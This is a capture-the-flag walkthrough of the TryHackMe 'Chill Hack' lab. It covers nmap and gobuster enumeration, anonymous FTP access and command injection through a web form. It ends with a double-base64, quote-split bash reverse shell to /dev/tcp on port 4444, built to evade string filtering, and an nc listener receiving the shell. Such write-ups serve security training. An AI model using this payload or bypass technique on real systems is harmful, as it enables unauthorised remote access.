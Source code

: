 # Chill Hack

URL: https://tryhackme.com/room/chillhack



Level: Easy



Start time: 1 January 2021, 8:13pm GMT+1


End time: 2 January 2021, 2:15pm GMT+1


Actual play time: 4 hours 26 minutes


## Walkthrough

### Enumeration


#### NMAP


Let's start with a basic nmap scan:

```
# Nmap 7.91 scan initiated Sat Jan  1 20:12:21 2022 as: nmap -T4 -p- -oN 01_nmap 10.10.183.96
Nmap scan report for 10.10.183.96
Host is up (0.059s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sat Jan  1 20:13:12 2022 -- 1 IP address (1 host up) scanned in 50.68 seconds
```

We got 3 open ports. Let's check again with service detection (-sV) and default script (-sC):

```
# Nmap 7.91 scan initiated Sat Jan  1 20:13:58 2022 as: nmap -T4 -p21,22,80 -sV -sC -oN 02_nmap 10.10.183.96
Nmap scan report for 10.10.183.96
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.147.132
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  1 20:14:21 2022 -- 1 IP address (1 host up) scanned in 22.55 seconds
```

According to Apache and OpenSSH version, chances are we are facing an Ubuntu "bionic" 18.04 LTS box:

https://packages.ubuntu.com/search?keywords=apache2


https://packages.ubuntu.com/search?keywords=openssh


### FTP

Since we see that anonymous FTP is allowed, we grab the note.txt file:

```
# ftp 10.10.183.96
Connected to 10.10.183.96.
220 (vsFTPd 3.0.3)
Name (10.10.183.96:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (122.4103 kB/s)
ftp> quit
221 Goodbye.


# cat note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

We got a note from Anurodh about some strings filtering mechanism in action. We will see it soon. 


### HTTP


We check target with our browser:

![chillhack1](https://user-images.githubusercontent.com/42389836/147879826-f1fafa42-e605-456b-a890-3bc76d04100b.png)


"Login" and "Register" buttons aren't working, and we see some "Lorem Ipsum" stuff here and there, so we fire up our gobuster:


```gobuster dir -u http://10.10.183.96 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o 04_gobuster```

We got some results:


```/images               (Status: 301) [Size: 313] [--> http://10.10.183.96/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.183.96/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.183.96/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.183.96/fonts/]
/secret               (Status: 301) [Size: 313] [--> http://10.10.183.96/secret/]
/server-status        (Status: 403) [Size: 277]
```

We open /secret folder and we found a very simple form:


![chillhack2](https://user-images.githubusercontent.com/42389836/147880283-bb625692-cfed-4f7a-a4d4-646cc567dc2e.png)


Let's take a look on HTML source code:


![chillhack3](https://user-images.githubusercontent.com/42389836/147880303-6d4da8a1-1dd1-45bb-9df9-f038cd2e50e0.png)


Let's try if command execution is actually working (id):


![chillhack4](https://user-images.githubusercontent.com/42389836/147880333-39f871e2-9fee-4b8b-8823-1322e2ced624.png)


We got a response, and we know now that webserver is running as www-data user.


Let's try with a different command (ls):


![chillhack5](https://user-images.githubusercontent.com/42389836/147880354-7f9f1a4f-d707-46e0-96e9-e229b8a0e768.png)


This time we got no luck, we are facing some "string filtering" as stated before.


Since our goal is to get a reverse shell, we must find a way to evade that protection.


Meanwhile, we can also use curl to explore some other command:


```
# curl -X POST http://10.10.94.161/secret/index.php -d 'command=uname -ar'
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<h2 style="color:blue;">Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
</h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        </body>
</html>
```

Let's obtain a more clean results:


```
# curl -s -X POST http://10.10.94.161/secret/index.php -d 'command=uname -ar' |grep color | awk -F '>' '{ print $2 }'
Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

We found 3 potential system users with "dir" command (we know that "ls" is avoided):


```
# curl -s -X POST http://10.10.94.161/secret/index.php -d 'command=dir /home' |grep color | awk -F '>' '{ print $2 }'
anurodh  apaar  aurick
```


To evade filtering, We try the very first technique on this URL:


https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions


```
# echo "echo $(echo 'bash -i >& /dev/tcp/10.8.147.132/4444 0>&1' | base64 | base64)|ba''se''6''4 -''d|ba''se''64 -''d|b''a''s''h" | sed 's/ /${IFS}/g'
echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNDRMakUwTnk0eE16SXZORFEwTkNBd1BpWXhD
Zz09Cg==|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h
```


Then, we run nc on out attacking box:


```
# nc -nlvp 4444
listening on [any] 4444 ...
```


After this, we try again with our curl POST request:


```
# curl -X POST http://10.10.123.185/secret/index.php -d 'command=echo${IFS}WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNDRMakUwTnk0eE16SXZORFEwTkNBd1BpWXhDZz09Cg==|ba''se''6''4${IFS}-''d|ba''se''64${IFS}-''d|b''a''s''h'
```


And we get a shell!


```connect to [10.8.147.132] from (UNKNOWN) [10.10.123.185] 44832
bash: cannot set terminal process group (1050): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/secret$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```








